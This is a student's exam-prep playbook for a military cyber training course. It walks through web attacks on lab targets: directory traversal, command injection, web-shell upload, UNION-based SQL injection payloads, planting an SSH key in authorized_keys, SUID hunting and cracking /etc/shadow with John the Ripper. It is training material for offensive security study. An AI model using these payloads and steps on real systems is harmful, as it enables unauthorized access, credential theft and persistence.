# CCTC Security Playbook

[TOC]

## HTTP

Enumerating HTTP will be essential on the exam. Specifically SQL Injection. The main purpose to enumerate HTTP services is to find credentials, and other information that allows us access to the box. 

**Indicator**

HTTP is open. Commonly found on 80, 8000, and 8080



**General (External Active) Enumeration**

STEPS

1. **Always**, the first step is to run the nmap script associated with http enumeration. 

```bash
nmap 10.50.12.32 --script=http-enum -p 80
# run with proxychains if you have a dynamic tunnel up
```



2. Check all Directories. If you get nothing, jump on the website and look try common files:

```
/robots.txt
/uploads/
/scripts/

# Goes at the end of a URL, like so:
http://10.10.10.10:80/robots.txt
```

3. If you find an input box, you most likely have your attack vector.



[TOC]

### Directory Traversal

Directory Traversal is useful to find information within some sensitive documents on the system, but past that we can't do too much. 

Selecting a file to read from the website is a dead giveaway. If you're able to choose something, or input something, to get output back to your screen, it's a directory traversal indicator.

#### POST

**Indicator**

Within an input box, we can select a file to be read.

In this case, we can lookup files to read on this page:


STEPS

1. Instead of the regular file the website wants, input your own custom directory path to whatever file. Common files are /etc/passwd and /etc/hosts

```bash
# Inside input box. Use 6-7 "../" to be safe. This tells the server to "move back" directroies, before reading the file at the end, since we don't really know where this input box is reading from.

../../../../../../../etc/passwd
```



2. Upon submit, we see the output



#### GET

**Indicator**

The GET method is similar but uses the URL to lookup files, rather than the input box directly. Notice how myfile= is loading the Systems_engineer.html. We can modify this file to load something else, potentially.



STEPS

1. Replace the file after "myfile=" to the custom file you'd like to load. In this case, the website is using myfile= to load a file, but it most likely will be different for another website.



2. Hit enter to send request and receive your information. 



### Command Injection

Command injection is a severe vulnerability that allows us to modify files on the system. Seeing this is an indicator of a SSH Key Upload attack. In a command injection, the system runs a command it's supposed to run, and then we run a second command afterwards using a semicolon. 

**Indicator**

An input box that allows us to interact with the system.



In this case, the input box (or webpage in general) is encoding and decoding the string I input. We can leverage this to add another command to run against the system. 

STEPS

```
# Prior to adding a command, add a semicolon 
; whoami
; ls -la
; cat /etc/passwd
```



[TOC]

### File Upload 

File Upload is a great vulnerability to leverage to potentially give yourself an interactive shell with the system. Like Command Injection, this is commonly used with a SSH Key Upload attack. Basically - successfully completing a file upload is like finding a Command Injection input but you don't need to emplace the semicolon. 

**Indicator**

Somewhere you can upload files. In this case, we're using the demo website which makes it obvious. 



STEPS

1. Select Upload and file your malicious file to upload. You'll find the code for the malicious file HERE: https://pages.ccoecaas.net/us-army-cyber-school/completesite/cctc/sec/security/04_Web_Exploitaion.html#malicious-file-upload. It need to be loaded in CVTE. It needs to be placed in a file with a .php extension. Here's an image for reference. 



I can't directly place the code here as due to its malicious nature Windows Firewall will pick it up and delete your file. 

2. Upload the malicious file. In the example, I use 'mal.php'





3. Find the file. Typically in the /uploads/ directory

```
/uploads/
```



4. Click on the file to get access to your custom shell.



[TOC]

### SQL Injection

SQL Injection is a critical vulnerability and a critical attack method to know for the Security Exam. SQL Injection is commonly used to get credentials. **Without credentials, you will not be able to fully traverse** into the network.

#### General Attack

This is a brief overview on how we can use SQL injections to get information and access to some juicy areas. 

If you see a login prompt, send it. 



Copy both tom' or 1='1 into the username and password fields. 

```sql
tom' or 1='1
```

You can potentially get access to another attack method or information. In this case, we receive an admin page that we use for Command Injection.



Alternatively, we can adjust this attack to a GET method "General Attack" as I'll call it, to potentially see more/different information.

```
F12 to get to the developer console
Change "post" to "get"
```



Send it. 

We get more information. 


Viewing the page source makes it more clear. 



(The passwords may be encrypted - don't forget to throw in CyberChef!)

[TOC]

#### POST - Database Attack

A POST attack is when we use an input box for a SQL inject. It's kind a pain in the ass. 

**Indicator**

Look for an input box that brings up information in Columns (SQL style). In this case, we find:



STEPS

1. Test to see if vulnerable. Input our 'test' SQL inject string

```sql
tom' or 1='1
```



Notice how we get more information (We've dumped the whole table here). This means this input box is vulnerable. 

2. Identify the number of columns. Very important information. We increment strating at 2 until we recieve a response from the server. 

```bash
Tom' union select 1,2#     - If this doesn't work, increment. Move to the next line
Tom' union select 1,2,3#    - The # is necessary'
Tom' union select 1,2,3,4#
Tom' union select 1,2,3,4,5#
etc
```



We get output at two! This is a rather bad example because the correct columns is two, but if we try three it'll fail. 



3. With this, we move to the next step. Golden Statement.

The golden statement is great, but we need to adjust it to meet our needs depending on our column count. By default, the golden statement uses **three** columns. 

```bash
Tom' union select table_schema,table_name,column_name from information_schema.columns# 
```

Notice how if I try to input the full golden statement, we get an error/fail. 



4. We need to adjust this to match the TWO column number we found, as this input box only works with TWO. In which case, we need to remove one of our variables. 

```bash
Tom' union select table_schema,table_name from information_schema.columns# 

### I've removed 'column_name' from the golden statement. Don't forget about it, as it still holds important info. 

### In the case we have MORE than three columns, we need to ADD variables to our golden statement. So for four columns, it would look like this:

Tom' union select table_schema,table_name,column_name,4 from information_schema.columns# 

### The PLACEMENT of the "4" is important. You will need to test to see which placement gives you the most information. Here's an example of moving it around with four columns:
Tom' union select table_schema,table_name,4,column_name from information_schema.columns# 
Tom' union select table_schema,4,table_name,column_name from information_schema.columns# 
Tom' union select 4,table_schema,table_name,column_name from information_schema.columns# 
```

I get a successful response, with a full DUMP of the database for information_schema. 



5. Ignore the first three databases. Basically, scroll the the bottom. The database we care about are the ones that are non-default, which appear at the bottom. 



6. Note, this is only a partial of the information we need, since we're limited to two columns. We need to adjust our golden statement to get the remaining column/information. I'm putting 'column_name' back in, replacing table_name:

```
Tom' union select table_schema,column_name from information_schema.columns# 
```



7. We've discovered all the information from the default paramters. Now, we adjust our statement to include the variables we found, to enumerate specific database information. 

table_schema = database
table_name = table
column_name = column

For this example, we would adjust as so:

```
Tom' union select username,password from sqlinjection.members# 

I matched the database.table at the end based off of cycling through the combinations of the SQL injection within the Golden Statement. 'username,password' came from the column part of the golden statement, and must match the same table it's associated with. 
```



Success.

[TOC]

#### GET - Database Attack

A GET attack is when we use an URL for a SQL inject. This is the preferred SQL inject method as we can easily adjust the URL parameters to what we need, over throwing a large command in an input box. 

**Indicator**

Look for a link that contains an equal sign (=) that seems to be loading a database, based off of a paramter. In this case, we see category=1



Changing the category to 2 will result in different information being displayed. We can exploit this with a GET SQL inject. 

STEPS

1. First, we need to test to see what is vulnerable. This is a bit more complex than the POST method, but is still easily identified. 

Inside the URL, we need to change the paramter with our injection SQL statement, until we see more information than we should. Similar to the POST method. 

```bash
We add our inject statement at the end of the URL
or 1=1
```



And check to see if we get the 'dump' of info (instead of the normal output). 



We do. 1 is vulnerable. 

Unfortunately, this is another bad example as every number we input is vulnerable. **ON THE TEST, YOU WILL NEED TO TEST TO FIND WHICH NUMBER.** 

Cycle through numbers in order to find what is vulnerable:

```bash
In this case, category= is what is at the end of our URL. If 1 didn't work, we'd increment until we get a successful DUMP. 

?category=1 or 1=1
?category=2 or 1=1
?category=3 or 1=1
?category=4 or 1=1
?category=5 or 1=1
```

2. Now that we've identified which parameter is vulnerable, we need to get our column count. 

```bash
?category=1 union select 1,2 # Tests for two columns
```



Which fails. 

Lets up it to three.

```
?category=1 union select 1,2,3
```



Success. In the case three columns also fail, you would keep incrementing until you find the correct column number. 

```bash
# Try until you are successful 
?category=1 union select 1,2
?category=1 union select 1,2,3
?category=1 union select 1,2,3,4
?category=1 union select 1,2,3,4,5

# etc
```

3. Now that we have the column count of three, we can run our golden statement. Three as the correct columns is perfect as the golden statement uses three by default

```bash
?category=1 union select table_schema,table_name,column_name from information_schema.columns
```



Succesful dump recieved. 

4. In the case we have MORE or LESS than three as the correct column count, we need to adjust our golden statement to reflect.

```bash
# Two columns
# Uses two columns but removes column_name from the output. Be sure to utilize it with another inject. You will be able to pull all the required information, with two columns as the criteria, with the below two injects:
?category=1 union select table_schema,table_name from information_schema.columns
?category=1 union select table_name,column_name from information_schema.columns

# 4 or more columns
# If more than three columns, we need to add in more parameters. We can add in another variable, 4, to incorporate the four column requirement. The PLACEMENT of the "4" is important. You will need to test to see which placement gives you the most information. Here's an example of moving it around with four columns:
?category=1 union select table_schema,table_name,4,column_name from information_schema.columns# 
?category=1 union select table_schema,4,table_name,column_name from information_schema.columns# 
?category=1 union select 4,table_schema,table_name,column_name from information_schema.columns# 
```

5. Scroll to the bottom, past the default information_schema tables. Here, we'll find the user generated databases that are of importance to us. 



6. We've discovered all the information from the default paramters. Now, we adjust our statement to include the variables we found, to enumerate specific database information. Look for variables that are of interest to you.

table_schema = database
table_name = table
column_name = column

```bash
?category=1 union select id,username,password from sqlinjection.members
```



Success. 

[TOC]

## SSH Key Upload

SSH Key Upload is a method of exploitation that can be used to gain intiial access to a system. It may be the only option available to you, making it imparative for your understanding. 

**Indicator**

Command Injection and File Upload attack vectors are common indicators of a SSH Key Upload attack. Either can be used to upload your public key. 

**Prerequiste**: Generate RSA key

```bash
ssh-keygen -t rsa
# Enter all options. If you see an override string, hit Y if you'd like to generate another key.
```


### www-data

**Indicator**

Within your command injection or file upload shell, if you send the command *whoami* and recieve back www-data, you'll need to use the abnormal home directory of www-data. 


STEPS

1. 'cat' your id_rsa.pub key.

```bash
cat ~/.ssh/id_rsa.pub
```



The way you copy this output is VERY important. Start with ssh-rsa and end at student@lin-ops 



2. Create a .ssh directory inside the victim machine using your command access point (File Upload Shell or Command Injection). It could be there already, but this step is commonly missed so we're adding it. It will not re-create if it's already present. 

```bash
# Command Injection
; mkdir /var/www/.ssh

# File Upload Shell
mkdir /var/www/.ssh
```

3. Inside your input shell, whether it be from Command Injection or File Upload, we send a command to input our key to the victim.

```bash
# Command Injection
; echo "YOUR_COPIED_PUBLIC_KEY" > /var/www/.ssh/authorized_keys

# File Upload Shell
echo "YOUR_COPIED_PUBLIC_KEY" > /var/www/.ssh/authorized_keys
```

   3.5. Verify key has been uploaded

```bash
# Command Injection
; cat /var/www/.ssh/authorized_keys

# File Upload Shell
cat /var/www/.ssh/authorized_keys
```



4. Now, we simply ssh in as if we were that user. 

   

Success

### Other users

**Indicator**

Within your command injection or file upload shell, if you send the command *whoami* and recieve back any other username than www-data, you'll need to use the home directory of that user, typically located in /home/username



STEPS

1. 'cat' your id_rsa.pub key.

```bash
cat ~/.ssh/id_rsa.pub
```


The way you copy this output is VERY important. Start with ssh-rsa and end at student@lin-ops 


2. Create a .ssh directory inside the victim machine using your command access point (File Upload Shell or Command Injection). It could be there already, but this step is commonly missed so we're adding it. It will not re-create if it's already present. 

```bash
# Command Injection
; mkdir /home/billybob/.ssh

# File Upload Shell
mkdir /home/billybob/.ssh
```

3. Inside your input shell, whether it be from Command Injection or File Upload, we send a command to input our key to the victim.

```bash
# Command Injection
; echo "YOUR_COPIED_PUBLIC_KEY" > /home/billybob/.ssh/authorized_keys

# File Upload Shell
echo "YOUR_COPIED_PUBLIC_KEY" > /home/billybob/.ssh/authorized_keys
```

   3.5. Verify key has been uploaded

```bash
# Command Injection
; cat /home/billybob/.ssh/authorized_keys

# File Upload Shell
cat /home/billybob/.ssh/authorized_keys
```



Really ugly like output from this webserver....

4. Now, we simply ssh in as if we were that user. 



Success

[TOC]

## Linux Privilege Escalation

### sudo -l

Always check sudo -l when accessing **another user**. Even if it's on the same system/host. Always. This will provide key information on what binaries you have access to that you can run as sudo. Not all binaries can be exploited with sudo, but I would expect for the exam it'll at least point you in the right direction. 

```bash
sudo -l
```

For instance, the below image demonstrates the need for John the Ripper. We can use sudo with /bin/cat, which allows us to read /etc/shadow. Immediately we think of password cracking. 



### Basic Enumeration

Check common file locations and the SUID/SGID bit to see what bianries could be exploited.

Common Directories:

```bash
/tmp/
/var/tmp/
/etc/
```

#### SUID/SGID bit

We can leverage the SUID/SGID set binaries to potentailly privlege escalate. To identify which binaries have the SUID/SGID bit turned on, run:

```bash
find / -perm /4000 -type f 2>/dev/null -exec ls -l {} \; # User
find / -type f -perm /2000 -ls 2>/dev/null -exec ls -l {} \; # Group
```



If you don't know where to start, you can cross-reference these outputs from your lin-ops to see what is normal. 

OR

You can run **each binary** through GTFOBins https://gtfobins.github.io/ and search for one that has SUID/SGID present. As an example, we'll search find:



Inside we find information we can use to easily privilege esclate. 



### John the Ripper

John the Ripper is used for password cracking. Cracking user accounts could potentially give us root-level credentials for a user that we didn't have before. It's a known privilege escalation technique that may come up in the exam. 

**Indicator**

When running sudo -l, you see that you have access to /usr/cat (or a similar path to cat)


STEPS:

1. Receive a copy of the /etc/passwd file and place on your lin-ops

```bash
# On victim system
cat /etc/passwd 
# Place output in your lin-ops
nano passwd-copy
```



2. Receive of copy of the /etc/shadow file and place on your lin-ops



```bash
# Place output in your lin-ops
sudo cat /etc/shadow 
# Place output in your lin-ops
nano shadow-copy
```



3. unshadow (combine) the two files:

```bash
unshadow passwd-copy shadow-copy > crackme.txt
# You may need to use the full path as shown in the image below
# in this case, the full path and command was
/usr/sbin/unshadow passwd-coy shadow-copy > crackme.txt
```



4. Run john, with a wordlist if necessary:

```bash
john --wordlist=/path/to/wordlist/file crackme.txt
# You may need to use the full path as shown in the image below
# in this case, the full path and command was
/usr/sbin/john --wordlist=/home/student/Downloads/10-million-password-list-top-10000.txt crackme.txt

# Your wordlist would most likely change. Adjust as needed.
```



Success. 

5. Show cracked passwords with:

```bash
john --show crackme.txt
# username:password
```




